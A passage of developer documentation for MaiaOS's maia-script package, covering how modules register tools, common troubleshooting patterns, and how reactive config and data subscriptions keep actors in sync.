      tools: ['@mymodule/tool1', '@mymodule/tool2']
    });
  }
  
  static query(query) {
    // Return module configuration
    return null;
  }
}

export async function register(registry) {
  return await MyModule.register(registry);
}
```

---

## Available Modules

### db.module.js

**Purpose:** Database operations module.

**Tools:**
- `@db` - Unified database operations

**Usage:**
```javascript
// Tools are automatically available after module loads
// Use in state machines or views:
{
  tool: '@db',
  payload: {
    op: 'read',
    schema: 'co_zTodos123'  // Schema co-id (co_z...)
  }
}

// read() always returns a reactive store
const store = await os.db({op: 'read', schema: 'co_zTodos123'});
console.log('Current todos:', store.value);
store.subscribe((todos) => {
  console.log('Todos updated:', todos);
});
```

---

### core.module.js

**Purpose:** Core UI tools module.

**Tools:**
- `@core/noop` - No-operation (for testing)
- `@core/preventDefault` - Prevent default events
- `@core/publishMessage` - Publish messages to subscribed actors
- `@core/focus` - Focus an element

---

### dragdrop.module.js

**Purpose:** Drag-and-drop functionality module.

**Tools:**
- `@dragdrop/start` - Start drag operation
- `@dragdrop/end` - End drag operation
- `@dragdrop/drop` - Handle drop
- `@dragdrop/dragEnter` - Handle drag enter
- `@dragdrop/dragLeave` - Handle drag leave

**Configuration:**
```javascript
// Access module config
const config = registry.getModule('dragdrop').query('config');
```

---

### interface.module.js

**Purpose:** Actor interface validation module.

**Tools:**
- `@interface/validateInterface` - Validate actor interface

---

## Creating Custom Modules

### Step 1: Create Module File

Create `libs/maia-script/src/modules/mymodule.module.js`:

```javascript
import { getToolEngine, registerToolsFromRegistry, registerModuleConfig } from '../utils/module-registration.js';

export class MyModule {
  static async register(registry) {
    const toolEngine = getToolEngine(registry, 'MyModule');
    
    const toolNames = ['tool1', 'tool2'];
    
    await registerToolsFromRegistry(registry, toolEngine, 'mymodule', toolNames, '@mymodule');
    
    registerModuleConfig(registry, 'mymodule', MyModule, {
      version: '1.0.0',
      description: 'My custom module',
      namespace: '@mymodule',
      tools: toolNames.map(t => `@mymodule/${t}`)
    });
  }
  
  static query(query) {
    return null;
  }
}

export async function register(registry) {
  return await MyModule.register(registry);
}
```

### Step 2: Create Tools

Create tools in `@MaiaOS/tools` package (see `@MaiaOS/tools` documentation).

### Step 3: Load Module

Load module during boot:

```javascript
const os = await MaiaOS.boot({
  modules: ['db', 'core', 'mymodule'] // Add your module
});
```

---

## Module Registration Utilities

Modules use shared utilities from `module-registration.js`:

- `getToolEngine(registry, moduleName)` - Get ToolEngine from registry
- `registerToolsFromRegistry(registry, toolEngine, moduleName, toolNames, namespace)` - Register tools
- `registerModuleConfig(registry, moduleName, ModuleClass, config)` - Register module config

These utilities ensure consistent module registration patterns across all modules.

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [engines.md](./engines.md) - Engine details
- [api-reference.md](./api-reference.md) - API reference
- [patterns.md](./patterns.md) - Common patterns

---

# MAIA SCRIPT/PATTERNS

*Source: developers/04_maia-script/patterns.md*

# Common Patterns and Troubleshooting

Common usage patterns and solutions to frequent problems.

---

## Common Patterns

### Pattern 1: Custom Module with Tools

```javascript
// 1. Create module
export class MyModule {
  static async register(registry) {
    const toolEngine = getToolEngine(registry, 'MyModule');
    await registerToolsFromRegistry(registry, toolEngine, 'mymodule', ['tool1'], '@mymodule');
    registerModuleConfig(registry, 'mymodule', MyModule, {
      version: '1.0.0',
      description: 'My module',
      namespace: '@mymodule',
      tools: ['@mymodule/tool1']
    });
  }
}

// 2. Create tools in @MaiaOS/tools package
// 3. Load module during boot
```

---

### Pattern 2: Custom Expression Evaluator

```javascript
const evaluator = new MaiaScriptEvaluator(null, {
  maxDepth: 100,
  validateExpressions: true
});

// Use in custom context
const result = await evaluator.evaluate(expression, { context: myData });
```

---

### Pattern 3: Direct Database Access

```javascript
const backend = new IndexedDBBackend();
await backend.init();
const dbEngine = new DBEngine(backend);

// Use read() API (always returns reactive store)
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zMySchema123'  // Schema co-id (co_z...)
});

// Store has current value
console.log('Current data:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Data updated:', data);
});
```

---

## Troubleshooting

### Problem: Expression evaluation fails

**Solution:** Check expression syntax and validation:

```javascript
// ❌ Wrong - invalid syntax
{ "$if": { "condition": true } } // Missing 'then' and 'else'

// ✅ Correct
{ "$if": { "condition": true, "then": "yes", "else": "no" } }
```

---

### Problem: Module not loading

**Solution:** Check module registration:

```javascript
// Ensure module exports register function
export async function register(registry) {
  return await MyModule.register(registry);
}

// Ensure module is in boot config
const os = await MaiaOS.boot({
  modules: ['mymodule'] // Add your module
});
```

---

### Problem: Tool not found

**Solution:** Check tool registration:

```javascript
// Ensure tool is registered in module
await registerToolsFromRegistry(registry, toolEngine, 'mymodule', ['mytool'], '@mymodule');

// Ensure tool exists in @MaiaOS/tools package
// Check namespace path matches: 'mymodule/mytool' → '@mymodule/mytool'
```

---

### Problem: Expression depth exceeded

**Solution:** Increase depth limit or simplify expression:

```javascript
// Increase depth limit
const evaluator = new MaiaScriptEvaluator(null, {
  maxDepth: 100 // Default is 50
});

// Or simplify nested expressions
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [engines.md](./engines.md) - Engine details
- [modules.md](./modules.md) - Module system
- [expressions.md](./expressions.md) - Expression language
- [api-reference.md](./api-reference.md) - API reference

---

# MAIA SCRIPT/README

*Source: developers/04_maia-script/README.md*

# maia-script: Execution Engines and Modules

## Overview

The `@MaiaOS/script` package provides the reusable execution components that power MaiaOS. Think of it as the factory floor where all the work happens - engines process your definitions, modules provide tools, and utilities handle common tasks.

**What it is:**
- ✅ **Execution engines** - Process actors, views, styles, state machines, and tools
- ✅ **Module system** - Plugin architecture for extending functionality
- ✅ **MaiaScript evaluator** - Evaluates JSON-based expressions safely
- ✅ **Utilities** - Shared helpers for config loading, path resolution, etc.

**What it isn't:**
- ❌ **Not the kernel** - Boot process is in `@MaiaOS/kernel`
- ❌ **Not tool definitions** - Tools are in `@MaiaOS/tools`
- ❌ **Not schemas** - Schema validation is in `@MaiaOS/schemata`

---

## The Simple Version

Think of `maia-script` like a factory with specialized workers (engines):

- **MaiaScriptEvaluator** = The translator (converts JSON expressions to values)
- **ActorEngine** = The manager (orchestrates everything)
- **ViewEngine** = The painter (renders UI)
- **StyleEngine** = The stylist (compiles CSS)
- **StateEngine** = The conductor (runs state machines)
- **ToolEngine** = The executor (runs tools)
- **DBEngine** = The librarian (manages data)
- **SubscriptionEngine** = The watcher (keeps data in sync)

**Analogy:**
Imagine you're building a house:
- You write blueprints (`.maia` files) - these are your definitions
- The factory workers (engines) read the blueprints and do the work
- Modules are like toolboxes - they provide specialized tools
- The evaluator translates your instructions into actions

---

## Architecture

### Package Structure

```
libs/maia-script/src/
├── engines/              # Core execution engines
│   ├── MaiaScriptEvaluator.js    # Expression evaluator
│   ├── ModuleRegistry.js          # Module loader
│   ├── actor-engine/              # Actor lifecycle
│   ├── view-engine/               # UI rendering
│   ├── style-engine/              # Style compilation
│   ├── state-engine/              # State machines
│   ├── tool-engine/               # Tool execution
│   ├── db-engine/                 # Database operations
│   ├── subscription-engine/       # Reactive subscriptions
│   └── message-queue/             # Message queuing
├── modules/              # Module definitions
│   ├── db.module.js               # Database module
│   ├── core.module.js             # Core UI tools
│   ├── dragdrop.module.js         # Drag-and-drop
│   └── interface.module.js        # Interface validation
├── utils/                # Shared utilities
│   ├── module-registration.js     # Module helpers
│   ├── config-loader.js            # Config loading
│   ├── path-resolver.js           # Path resolution
│   ├── html-sanitizer.js          # HTML sanitization
│   └── co-id-validator.js         # Co-ID validation
└── index.js              # Public API exports
```

### Engine Dependencies



**Dependency Flow:**
1. `ModuleRegistry` loads modules and registers tools
2. `MaiaScriptEvaluator` evaluates expressions (used by all engines)
3. `ToolEngine` executes tools (used by StateEngine and ActorEngine)
4. `StateEngine` interprets state machines (used by ActorEngine)
5. `ViewEngine` renders UI (used by ActorEngine)
6. `StyleEngine` compiles styles (used by ActorEngine)
7. `ActorEngine` orchestrates everything
8. `DBEngine` handles data operations
9. `SubscriptionEngine` manages reactive subscriptions (used by ActorEngine)

---

## Documentation Structure

This package documentation is organized into focused topics:

- **[engines.md](./engines.md)** - Detailed descriptions of all 10 engines
- **[modules.md](./modules.md)** - Module system and creating custom modules
- **[expressions.md](./expressions.md)** - MaiaScript expression language reference
- **[api-reference.md](./api-reference.md)** - Complete API reference
- **[patterns.md](./patterns.md)** - Common patterns and troubleshooting

---

## Quick Start

Here's a simple example of using engines directly:

```javascript
import { MaiaScriptEvaluator } from '@MaiaOS/script';

const evaluator = new MaiaScriptEvaluator();

// Evaluate a simple expression
const result = await evaluator.evaluate(
  { $if: { condition: { $eq: ['$context.status', 'active'] }, then: 'green', else: 'gray' } },
  { context: { status: 'active' } }
);
// Returns: 'green'
```

For full system usage, see the [maia-kernel Package](../02_maia-kernel/README.md).

---

## Related Documentation

- [maia-kernel Package](../02_maia-kernel/README.md) - Boot process and orchestration
- [maia-operations Package](../06_maia-operations/README.md) - Shared database operations layer
- [maia-schemata Package](../03_maia-schemata/README.md) - Schema validation
- [maia-db Package](../05_maia-db/cojson.md) - Database backends
- [DSL Fundamentals](../02_dsl.md) - MaiaScript language reference
- [Engines](../04_engines.md) - High-level engine overview

---

## Source Files

**Package:** `libs/maia-script/`

**Key Files:**
- `src/index.js` - Public API exports
- `src/engines/` - All engine implementations
- `src/modules/` - Module definitions
- `src/utils/` - Shared utilities

**Dependencies:**
- `@MaiaOS/operations` - Shared database operations layer
- `@MaiaOS/tools` - Tool definitions
- `@MaiaOS/schemata` - Schema validation
- `@MaiaOS/db` - Database layer

---

# MAIA SCRIPT/SUBSCRIPTIONS CONFIG

*Source: developers/04_maia-script/subscriptions-config.md*

# Config Subscriptions

## Overview

Config subscriptions automatically keep actor configs (view, style, state, etc.) in sync with their CRDT definitions. When a config CRDT changes, the actor automatically updates and re-renders.

**Think of it like:** Auto-save in a document editor - when you change the document, everyone viewing it sees the update automatically.

---

## The Simple Version

Actor configs reference CRDTs by co-id. SubscriptionEngine automatically subscribes to these CRDTs:

```javascript
// Actor config references view co-id
actor.config = {
  view: "co_zView123",
  style: "co_zStyle456"
}

// SubscriptionEngine automatically:
// 1. Subscribes to view CRDT
// 2. Subscribes to style CRDT
// 3. When view changes → updates actor.viewDef → re-renders
// 4. When style changes → reloads stylesheets → re-renders
```

---

## How It Works

### Config Types

SubscriptionEngine subscribes to these config CRDTs:

- **`view`** - View definition CRDT (HTML structure)
- **`style`** - Style definition CRDT (CSS styles)
- **`brand`** - Brand style CRDT (design system tokens)
- **`state`** - State machine definition CRDT (state transitions)
- **`interface`** - Interface definition CRDT (message validation)
- **`context`** - Base context CRDT (initial context values)

### Subscription Process

1. **Scan Config:**
   ```javascript
   // SubscriptionEngine.initialize(actor) scans actor.config
   if (config.view && config.view.startsWith('co_z')) {
     // Subscribe to view CRDT
   }
   ```

2. **Subscribe via Engine or read() API:**
   ```javascript
   // View/style/state go through engines (they handle caching)
   await viewEngine.loadView(config.view, (updatedView) => {
     handleViewUpdate(actorId, updatedView);
   });
   
   // Interface/context use read() API directly
   const store = await dbEngine.execute({
     op: 'read',
     schema: interfaceSchemaCoId,
     key: config.interface
   });
   store.subscribe((updatedInterface) => {
     handleInterfaceUpdate(actorId, updatedInterface);
   });
   ```

3. **Store Unsubscribe Function:**
   ```javascript
   // Store for cleanup when actor is destroyed
   actor._configSubscriptions.push(unsubscribe);
   ```

---

## Config Update Handlers

### View Update

**Handler:** `SubscriptionEngine._handleViewUpdate()`

**What happens:**
1. Invalidates view cache
2. Updates `actor.viewDef = newViewDef`
3. Triggers re-render

**Code:**
```javascript
_handleViewUpdate(actorId, newViewDef) {
  const actor = this.actorEngine.getActor(actorId);
  if (!actor) return;
  
  // Invalidate cache
  this.viewEngine.viewCache.delete(actor.config.view);
  
  // Update actor
  actor.viewDef = newViewDef;
  
  // Re-render
  this._scheduleRerender(actorId);
}
```

### Style Update

**Handler:** `SubscriptionEngine._handleStyleUpdate()`

**What happens:**
1. Cache already updated by `loadStyle()` subscription callback
2. Reloads stylesheets via `styleEngine.getStyleSheets()`
3. Updates `actor.shadowRoot.adoptedStyleSheets`
4. Triggers re-render

**Code:**
```javascript
async _handleStyleUpdate(actorId, newStyleDef) {
  const actor = this.actorEngine.getActor(actorId);
  if (!actor) return;
  
  // Reload stylesheets
  const styleSheets = await this.styleEngine.getStyleSheets(actor.config);
  actor.shadowRoot.adoptedStyleSheets = styleSheets;
  
  // Re-render
  this._scheduleRerender(actorId);
}
```

### State Update

**Handler:** `SubscriptionEngine._handleStateUpdate()`

**What happens:**
1. Invalidates state cache
2. Destroys old state machine
3. Creates new state machine from updated definition
4. Triggers re-render

**Code:**
```javascript
async _handleStateUpdate(actorId, newStateDef) {
  const actor = this.actorEngine.getActor(actorId);
  if (!actor || !this.stateEngine) return;
  
  // Invalidate cache
  this.stateEngine.stateCache.delete(actor.config.state);
  
  // Destroy old machine
  if (actor.machine) {
    this.stateEngine.destroyMachine(actor.machine.id);
  }
  
  // Create new machine
  actor.machine = await this.stateEngine.createMachine(newStateDef, actor);
  
  // Re-render
  this._scheduleRerender(actorId);
}
```

### Interface Update

**Handler:** `SubscriptionEngine._handleInterfaceUpdate()`

**What happens:**
1. Updates `actor.interface = newInterfaceDef`
2. Re-validates interface (non-blocking)
3. **No re-render** (interface only affects message validation)

**Code:**
```javascript
async _handleInterfaceUpdate(actorId, newInterfaceDef) {
  const actor = this.actorEngine.getActor(actorId);
  if (!actor) return;
  
  // Update interface
  actor.interface = newInterfaceDef;
  
  // Re-validate (non-blocking)
  await this.actorEngine.toolEngine.execute('@interface/validateInterface', actor, {
    interfaceDef: newInterfaceDef,
    actorId
  });
}
```

### Context Update

**Handler:** `SubscriptionEngine._handleContextUpdate()`

**What happens:**
1. Merges new context with existing context
2. Re-subscribes to query objects (handles new queries)
3. Triggers re-render

**Code:**
```javascript
async _handleContextUpdate(actorId, newContext) {
  const actor = this.actorEngine.getActor(actorId);
  if (!actor) return;
  
  // Merge contexts
  const existingContext = actor.context || {};
  actor.context = { ...existingContext, ...newContext };
  
  // Re-subscribe to query objects
  await this._subscribeToContext(actor);
  
  // Re-render
  this._scheduleRerender(actorId);
}
```

---

## Examples

### View Subscription

```javascript
// Actor config references view co-id
actor.config = {
  view: "co_zView123"
}

// SubscriptionEngine automatically:
// 1. Subscribes to view CRDT via viewEngine.loadView()
// 2. When view changes → handleViewUpdate() fires
// 3. Updates actor.viewDef
// 4. Triggers re-render
```

### Style Subscription

```javascript
// Actor config references style and brand co-ids
actor.config = {
  style: "co_zStyle456",
  brand: "co_zBrand789"
}

// SubscriptionEngine automatically:
// 1. Subscribes to style CRDT
// 2. Subscribes to brand CRDT
// 3. When style changes → handleStyleUpdate() fires
// 4. Reloads stylesheets
// 5. Updates shadowRoot.adoptedStyleSheets
// 6. Triggers re-render
```

### State Subscription

```javascript
// Actor config references state co-id
actor.config = {
  state: "co_zState123"
}

// SubscriptionEngine automatically:
// 1. Subscribes to state CRDT via stateEngine.loadStateDef()
// 2. When state changes → handleStateUpdate() fires
// 3. Destroys old state machine
// 4. Creates new state machine
// 5. Triggers re-render
```

---

## Key Concepts

### Engine Subscriptions vs Direct Subscriptions

**View/Style/State:** Go through engines (they handle caching and batch subscriptions)

```javascript
// View subscription goes through ViewEngine
await viewEngine.loadView(config.view, (updatedView) => {
  handleViewUpdate(actorId, updatedView);
});
```

**Interface/Context:** Use read() API directly

```javascript
// Interface subscription uses read() API
const store = await dbEngine.execute({
  op: 'read',
  schema: interfaceSchemaCoId,
  key: config.interface
});
store.subscribe((updatedInterface) => {
  handleInterfaceUpdate(actorId, updatedInterface);
});
```

### Cache Invalidation

When configs update, caches are invalidated:

```javascript
// View update invalidates cache
this.viewEngine.viewCache.delete(actor.config.view);

// State update invalidates cache
this.stateEngine.stateCache.delete(actor.config.state);
```

Caches are repopulated on next load (when re-render calls `loadView()`/`loadStateDef()` again).

---

## Common Patterns

### Multiple Config Subscriptions

Actors can subscribe to multiple configs:

```javascript
actor.config = {
  view: "co_zView123",
  style: "co_zStyle456",
  state: "co_zState789",
  interface: "co_zInterface012"
}

// SubscriptionEngine subscribes to all automatically
```

### Runtime Config Editing

Configs are runtime-editable - changes propagate automatically:

```javascript
// Edit view CRDT in database
await dbEngine.execute({
  op: 'updateConfig',
  schema: viewSchemaCoId,
  id: "co_zView123",
  data: { /* updated view */ }
});

// Actor automatically:
// 1. Receives update via subscription
// 2. Updates actor.viewDef
// 3. Re-renders with new view
```

---

## Troubleshooting

### Config Not Updating

**Symptoms:** Config CRDT changes but actor doesn't update

**Check:**
1. Is subscription set up? (`actor._configSubscriptions` has unsubscribe function)
2. Is config co-id valid? (starts with `co_z`)
3. Is handler being called? (add logging to handler)
4. Is cache being invalidated? (check cache before/after)

**Fix:**
- Verify `SubscriptionEngine.initialize()` is called
- Verify engines are set (`subscriptionEngine.setEngines()`)
- Check console for subscription errors

### Duplicate Subscriptions

**Symptoms:** Multiple subscriptions to same config

**Check:**
1. Is `loadView()` called multiple times with `onUpdate`?
2. Are subscriptions cleaned up properly?
3. Is `_subscribeToConfig()` called multiple times?

**Fix:**
- Ensure `initialize()` is only called once per actor
- Ensure `cleanup()` is called when actor is destroyed
- Check for duplicate `loadView()` calls

---

## Related Documentation

- [subscriptions.md](./subscriptions.md) - Subscription overview
- [subscriptions-data.md](./subscriptions-data.md) - Data subscriptions
- [subscriptions-patterns.md](./subscriptions-patterns.md) - Patterns and troubleshooting
- [engines.md](./engines.md) - ViewEngine, StyleEngine, StateEngine details

---

## References

- Source: `libs/maia-script/src/engines/subscription-engine/config-subscriptions.js`
- Update Handlers: `libs/maia-script/src/engines/subscription-engine/update-handlers.js`
- DB Engine: `libs/maia-script/src/engines/db-engine/operations/read.js`

---

# MAIA SCRIPT/SUBSCRIPTIONS DATA

*Source: developers/04_maia-script/subscriptions-data.md*

# Data Subscriptions

## Overview

Data subscriptions automatically keep actor context in sync with database queries. When you define a query object in an actor's context, SubscriptionEngine automatically subscribes to that data and updates the context whenever it changes.

**Think of it like:** Setting up a Google Doc notification - whenever someone edits the document, you get notified automatically.

---

## The Simple Version

Query objects in actor context automatically create reactive subscriptions:

```javascript
actor.context = {
  todos: {
    schema: "co_zTodos123",  // Which data to watch
    filter: { completed: false }  // Filter criteria
  }
}

// SubscriptionEngine automatically:
// 1. Uses read() API to get reactive store
// 2. Subscribes to store updates
// 3. Updates actor.context.todos when data changes
// 4. Triggers re-render so UI updates
```

---

## How It Works

### Query Objects

Query objects are simple objects in actor context that tell SubscriptionEngine what data to watch:

```javascript
{
  schema: "co_zTodos123",  // Schema co-id (co_z...)
  filter: { completed: false }  // Optional filter criteria
}
```

**Detection:**
- SubscriptionEngine scans `actor.context` for objects with `schema` property
- If `schema` is a string starting with `co_z`, it's a query object
- Query objects are automatically subscribed to

### Subscription Process

1. **Scan Context:**
   ```javascript
   // SubscriptionEngine.initialize(actor) scans context
   for (const [key, value] of Object.entries(actor.context)) {
     if (value && typeof value === 'object' && value.schema) {
       // Found query object!
     }
   }
   ```

2. **Use read() API:**
   ```javascript
   // read() always returns reactive store
   const store = await dbEngine.execute({
     op: 'read',
     schema: value.schema,  // co_zTodos123
     filter: value.filter || null
   });
   ```

3. **Subscribe to Store:**
   ```javascript
   // Subscribe to store updates
   const unsubscribe = store.subscribe((data) => {
     handleDataUpdate(subscriptionEngine, actor.id, key, data);
   });
   ```

4. **Store Unsubscribe Function:**
   ```javascript
   // Store for cleanup when actor is destroyed
   actor._subscriptions.push(unsubscribe);
   ```

### Update Handling

When data changes, the store subscription fires:

```javascript
function handleDataUpdate(subscriptionEngine, actorId, contextKey, data) {
  const actor = subscriptionEngine.actorEngine.getActor(actorId);
  if (!actor) return; // Actor may have been destroyed

  // Update context with new data
  actor.context[contextKey] = data;
  
  // Trigger batched re-render
  subscriptionEngine._scheduleRerender(actorId);
}
```

---

## Examples

### Basic Example

```javascript
// Actor context with query object
actor.context = {
  todos: {
    schema: "co_zTodos123",
    filter: { completed: false }
  }
}

// SubscriptionEngine automatically subscribes:
// 1. Calls dbEngine.execute({op: 'read', schema: "co_zTodos123", filter: {...}})
// 2. Gets reactive store
// 3. Subscribes to store updates
// 4. Updates actor.context.todos when data changes
```

### Multiple Queries

```javascript
// Actor can have multiple query objects
actor.context = {
  todos: {
    schema: "co_zTodos123",
    filter: { completed: false }
  },
  notes: {
    schema: "co_zNotes456",
    filter: { archived: false }
  }
}

// SubscriptionEngine subscribes to both automatically
```

### Filtered Queries

```javascript
// Query objects can have filters
actor.context = {
  activeTodos: {
    schema: "co_zTodos123",
    filter: { 
      completed: false,
      priority: 'high'
    }
  }
}

// Only todos matching filter are returned
```

---

## Key Concepts

### Reactive Stores

The `read()` API always returns a `ReactiveStore`:

```javascript
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",
  filter: { completed: false }
});

// Store has current value
console.log('Current:', store.value);  // Array of todos

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Updated:', data);  // New data when it changes
});
```

**Store Properties:**
- `store.value` - Current data value
- `store.subscribe(callback)` - Subscribe to updates, returns unsubscribe function

### Initial Data

Stores always have initial data loaded immediately:

```javascript
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123"
});

// Initial value is available immediately
console.log('Initial todos:', store.value);  // Already loaded!

// Subscribe for future updates
store.subscribe((data) => {
  console.log('Updated:', data);
});
```

### CoList Loading (Backend Implementation)

**Important:** Collection queries (queries that return arrays of items) use CoLists as the single source of truth. The backend automatically loads CoLists from IndexedDB before querying to ensure data is available after re-login.

**How it works:**
1. When `read()` is called for a collection query, the backend resolves the collection name from the schema
2. It gets the CoList ID from `account.data.<collectionName>`
3. It loads the CoList from IndexedDB and waits for it to be available (jazz-tools pattern)
4. Only then does it read items from the CoList and return them in the store

**Why this matters:**
- After re-login, CoLists exist in IndexedDB but aren't loaded into node memory
- Without explicit loading, queries would return empty results initially
- By waiting for CoList to be available, we ensure queries always return correct data

**Example:**
```javascript
// Backend automatically handles CoList loading
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123"  // Collection query
});

// Store.value contains all items from CoList (already loaded)
console.log('Todos:', store.value);  // Array of todos, not empty!
```

### Deduplication

SubscriptionEngine checks if data actually changed before updating:

```javascript
function handleDataUpdate(subscriptionEngine, actorId, contextKey, data) {
  const actor = subscriptionEngine.actorEngine.getActor(actorId);
  const oldData = actor.context[contextKey];
  
  // Check if data changed
  if (isSameData(oldData, data)) {
    return; // Skip if unchanged
  }
  
  // Update context
  actor.context[contextKey] = data;
  subscriptionEngine._scheduleRerender(actorId);
}
```

---

## Common Patterns

### Dynamic Queries

Query objects can be updated dynamically:

```javascript
// Initial query
actor.context = {
  todos: {
    schema: "co_zTodos123",
    filter: { completed: false }
  }
}

// Later, update filter
actor.context.todos.filter = { completed: true };

// SubscriptionEngine will re-subscribe automatically
// (handled by context update handler)
```

### Empty Results

Stores handle empty results gracefully:

```javascript
// Query with no results
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",
  filter: { completed: true }  // No completed todos
});

console.log(store.value);  // [] (empty array)

// Subscribe still works - will fire when todos are completed
store.subscribe((data) => {
  console.log('Todos updated:', data);
});
```

---

## Troubleshooting

### Data Not Updating

**Symptoms:** Query object in context but data doesn't update

**Check:**
1. Is schema a co-id? (must start with `co_z`)
2. Is subscription set up? (`actor._subscriptions` has unsubscribe function)
3. Is store subscription working? (check console for errors)

**Fix:**
- Verify schema is transformed to co-id during seeding
- Check that `SubscriptionEngine.initialize()` is called
- Verify `read()` operation succeeds

### Duplicate Updates

**Symptoms:** Same data triggers multiple updates

**Check:**
1. Is deduplication working? (check `isSameData()` function)
2. Are multiple subscriptions to same query?
3. Is batching working? (check `pendingRerenders`)

**Fix:**
- Verify deduplication logic
- Check for duplicate query objects in context
- Ensure batching system is working

---

## CRDT-Safe Watermark Pattern

### Distributed Inbox Message Processing

In a distributed multi-browser scenario, actors share inboxes (CoStreams) across browser instances. To prevent duplicate message processing, MaiaOS uses a CRDT-safe watermark pattern.

**The Problem:**
- Two browser instances can both read the same message timestamp before either updates the watermark
- Both browsers process the message, then both update the watermark
- Result: Message is processed twice (duplicate actions)

**The Solution:**
CRDT-safe max() logic for watermark updates:

```javascript
// Before processing messages, read current watermark from persisted config
const actorConfig = await dbEngine.execute({
  op: 'read',
  schema: actorSchemaCoId,
  key: actorId
});
const currentWatermark = actorConfig.inboxWatermark || 0;

// Only process messages after current watermark
const newMessages = inboxItems.filter(msg => msg.timestamp > currentWatermark);

// When updating watermark, use max() logic
if (newWatermark > currentWatermark) {
  // Only update if new watermark is greater than current
  await dbEngine.execute({
    op: 'update',
    schema: actorSchemaCoId,
    id: actorId,
    data: { inboxWatermark: newWatermark }
  });
}
```

**Key Points:**
- Watermark is always read from persisted config (not just in-memory) before processing
- Watermark updates use max(current, new) logic - only update if new > current
- This ensures that even if two browsers both try to update, the max() logic prevents duplicate processing
- Watermark is stored in actor config CoMap, which is CRDT-based and syncs across browsers

**Implementation:**
- `ActorEngine.processMessages()` reads watermark from persisted config before filtering messages
- `ActorEngine._persistWatermark()` implements CRDT-safe max() logic
- Watermark updates are idempotent - multiple updates with the same value are safe

---

## Related Documentation

- [subscriptions.md](./subscriptions.md) - Subscription overview
- [subscriptions-config.md](./subscriptions-config.md) - Config subscriptions
- [subscriptions-patterns.md](./subscriptions-patterns.md) - Patterns and troubleshooting
- [engines.md](./engines.md) - DBEngine and SubscriptionEngine details

---

## References

- Source: `libs/maia-script/src/engines/subscription-engine/data-subscriptions.js`
- DB Engine: `libs/maia-script/src/engines/db-engine/operations/read.js`
- Reactive Store: `libs/maia-script/src/utils/reactive-store.js`

---

# MAIA SCRIPT/SUBSCRIPTIONS PATTERNS

*Source: developers/04_maia-script/subscriptions-patterns.md*

# Subscription Patterns

## Overview

This document covers common subscription patterns, troubleshooting, and best practices for working with MaiaOS subscriptions.

---

## Subscription Patterns

### Data Subscription Pattern

**Using read() API with reactive stores:**

```javascript
// Query object in context
actor.context = {
  todos: {
    schema: "co_zTodos123",  // Schema co-id
    filter: { completed: false }
  }
}

// SubscriptionEngine automatically subscribes:
// 1. Uses read() API to get reactive store
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",
  filter: { completed: false }
});

// 2. Subscribes to store updates
const unsubscribe = store.subscribe((data) => {
  // Updates actor.context.todos automatically
  actor.context.todos = data;
  subscriptionEngine._scheduleRerender(actorId);
});

// 3. Stores unsubscribe function for cleanup
actor._subscriptions.push(unsubscribe);
```

**Important Notes:**
- Collection queries (queries that return arrays) automatically load CoLists from IndexedDB before querying
- This ensures data is available immediately after re-login (CoLists exist in IndexedDB but need to be loaded into node memory)
- The backend waits for CoList to be available before returning initial store value, ensuring queries never return empty results incorrectly
- All subscriptions created via `read()` operations are automatically stored in `actor._subscriptions` for cleanup
- When actors are destroyed, `SubscriptionEngine.cleanup()` unsubscribes from all subscriptions, which automatically triggers `store._unsubscribe()` when the last subscriber unsubscribes
- This ensures `CoJSONBackend._storeSubscriptions` is cleaned up automatically without manual tracking

### Config Subscription Pattern

**Using read() API for interface/context:**

```javascript
// Get schema co-id (must be co-id, not @schema/...)
const interfaceSchemaCoId = await dbEngine.getSchemaCoId('interface');

// Subscribe to config CRDT using read() API
const store = await dbEngine.execute({
  op: 'read',
  schema: interfaceSchemaCoId,  // co-id (co_z...)
  key: actorConfig.interface  // co-id of config
});

// Subscribe to store updates
const unsubscribe = store.subscribe((updatedInterface) => {
  // Handle update
  actor.interface = updatedInterface;
  // No re-render needed (interface only affects validation)
});

// Store for cleanup
actor._configSubscriptions.push(unsubscribe);
```

**Using engine methods for view/style/state:**

```javascript
// View subscription goes through ViewEngine (handles caching)
await viewEngine.loadView(config.view, (updatedView) => {
  handleViewUpdate(actorId, updatedView);
});

// Style subscription goes through StyleEngine
await styleEngine.loadStyle(config.style, (updatedStyle) => {
  handleStyleUpdate(actorId, updatedStyle);
});

// State subscription goes through StateEngine
await stateEngine.loadStateDef(config.state, (updatedStateDef) => {
  handleStateUpdate(actorId, updatedStateDef);
});
```

---

## Batching System

**Purpose:** Prevent excessive re-renders when multiple subscriptions fire simultaneously

**How it works:**
1. Multiple subscriptions fire → multiple `_scheduleRerender()` calls
2. `_scheduleRerender()` adds actor ID to `pendingRerenders` Set
3. Schedules microtask if not already scheduled
4. Microtask flushes all pending re-renders in one batch
5. Each actor re-renders once

**Code:**
```javascript
_scheduleRerender(actorId) {
  this.pendingRerenders.add(actorId);
  
  if (!this.batchTimer) {
    this.batchTimer = queueMicrotask(() => {
      this._flushRerenders();
    });
  }
}

_flushRerenders() {
  const actorIds = Array.from(this.pendingRerenders);
  this.pendingRerenders.clear();
  
  for (const actorId of actorIds) {
    this.actorEngine.rerender(actorId);
  }
}
```

---

## Cache Invalidation

**Current Approach:**
- Engines maintain caches (`viewCache`, `stateCache`, etc.)
- Config subscription callbacks update caches automatically
- Handlers explicitly invalidate caches before updates
- Caches repopulated on next load

**Cache Update Flow:**
1. Config CRDT changes
2. Store subscription fires
3. Engine's `loadView()`/`loadStyle()` callback updates cache
4. Handler invalidates cache (redundant but explicit)
5. Handler updates actor and triggers re-render
6. Re-render calls `loadView()` again → cache repopulated

**Future Approach (Backend Swap):**
- Backend handles caching automatically
- No engine-level caches needed
- Config changes automatically propagate via CRDT subscriptions

---

## Runtime Code Requirements

### Co-IDs Only

**Rule:** Runtime code MUST use co-ids (`co_z...`), NEVER human-readable IDs (`@schema/...`)

**Enforcement:**
- `ReadOperation` validates: `if (!schema.startsWith('co_z')) throw new Error(...)`
- Human-readable IDs are transformed to co-ids during seeding
